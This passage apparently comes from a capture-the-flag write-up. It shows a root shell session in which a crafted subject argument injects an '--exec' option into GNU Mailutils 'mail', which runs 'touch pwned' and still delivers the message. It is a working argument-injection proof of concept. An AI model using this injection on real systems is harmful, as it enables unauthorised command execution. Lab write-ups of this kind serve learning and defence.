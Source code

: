 {% highlight bash %}
root@awkward:~/scripts# echo "test" | mail -s "test: "\" --exec='\!touch pwned' christine 
root@awkward:~/scripts# ls
express.sh  notify.sh  pwned  restore.sh  vue.sh
root@awkward:~/scripts# cat /var/mail/christine
...
# El correo se envia igual
From root@awkward  Fri Feb 24 12:57:00 2023
Return-Path: <root@awkward>
X-Original-To: christine
Delivered-To: christine@awkward.localdomain
Received: by awkward.localdomain (Postfix, from userid 0)
	id 7208D19025; Fri, 24 Feb 2023 12:57:00 +1100 (AEDT)
Subject: test: "
To: christine@awkward.localdomain
User-Agent: mail (GNU Mailutils 3.14)
Date: Fri, 24 Feb 2023 12:57:00 +1100
Message-Id: <20230224015700.7208D19025@awkward.localdomain>
From: root <root@awkward>

test

{% endhighlight %}
